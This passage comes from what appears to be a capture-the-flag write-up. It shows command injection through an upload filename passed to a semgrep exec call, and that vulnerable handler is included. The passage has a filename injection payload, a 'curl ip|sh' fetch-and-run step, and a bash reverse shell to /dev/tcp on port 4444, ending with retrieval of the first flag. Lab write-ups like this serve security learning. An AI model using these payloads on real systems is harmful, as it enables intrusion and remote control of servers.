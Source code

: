 {% highlight javascript %}
app.post('/api/v1/upload', (req, res) => {
    // SAVE FILE BEFORE SCAN
    res.send(exec('semgrep scan $(req.body.filename)', (err, stdout, stderr) => {
      return stdout;
    }));
});
{% endhighlight %}

If the application really does something like we imagined, then we can attempt to perform a command injection during the scanning process.

It's important to make it clear that it is not possible to send any filename that doesn't end with '.js'. Thus, we noticed that the application only validates if the last 3 characters of the filename are '.js'.

In this way, we just need to craft our payload as: filename$(cmdhere).js

To test if our payload is working, I like to receive a request from the server on my machine. That way, I can confirm that the injection was truly successful.

In that way, our payload would be this: filename$(curl myip).js

Setting up a server in Python to receive the request:

![initserver]({{ "/assets/image/hacking_club_scanner/initserver.png" | relative_url }})

When executing the command, we received the request from the server:

![recvd_connection]({{ "/assets/image/hacking_club_scanner/recvd_connection.png" | relative_url }})

Done. Command injection validated! Now we need to gain access to the server through a reverse shell. To do this, I created an index.html file containing a bash reverse shell and hosted it on the Python server.

Content of index.html:
{% highlight javascript %}
/bin/bash -c 'sh -i >& /dev/tcp/10.0.20.223/4444 0>&1'
{% endhighlight %}

This way, when the request is made to my server, we can execute the content of the index.html, which is my reverse shell. To achieve this, we need to send the following payload in the CMD injection: filename$(curl ip\|sh).js

After sending the request, we achieve the reverse shell:

![recv_shell]({{ "/assets/image/hacking_club_scanner/recv_shell.png" | relative_url }})

Therefore, we just need to investigate the server a little at first to get the first flag on the path /home/svc_web/user.txt.

![first_flag]({{ "/assets/image/hacking_club_scanner/first_flag.png" | relative_url }})

# privilege escalation
